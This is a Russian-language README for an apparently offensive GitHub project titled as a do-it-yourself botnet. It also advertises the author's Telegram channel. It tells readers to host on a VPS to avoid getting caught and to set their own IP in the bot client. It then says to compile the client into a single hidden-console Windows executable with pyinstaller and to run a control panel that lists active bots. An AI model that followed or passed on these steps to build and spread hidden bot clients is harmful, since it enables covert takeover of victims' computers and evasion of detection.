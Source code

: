 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
git clone https://github.com/Samuraianonweb/bot
<br>
cd bot
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip $ ifconfig <br>
Редактируем файл smss.py

<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>

Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
pip install pyinstaller

После полной установки в нашем директории bot <br>
Приступаем к билду exe <br>
pyinstaller --onefile --noconsole smss.py<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Запуск панели 
python Server.py

Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
